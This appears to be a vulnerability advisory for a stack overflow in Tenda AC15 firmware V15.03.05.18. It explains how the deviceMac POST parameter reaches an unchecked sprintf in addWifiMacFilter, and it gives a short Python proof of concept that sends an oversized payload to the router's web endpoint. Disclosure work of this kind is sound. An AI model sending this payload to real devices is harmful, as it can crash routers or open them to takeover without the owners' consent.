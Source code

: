 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v11` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v11` can trigger this security vulnerability.

![image-20240306165547354](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165547354.png)

![image-20240314212322630](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314212322630.png)

![image-20240306165606917](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165606917.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314212645798](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314212645798.png)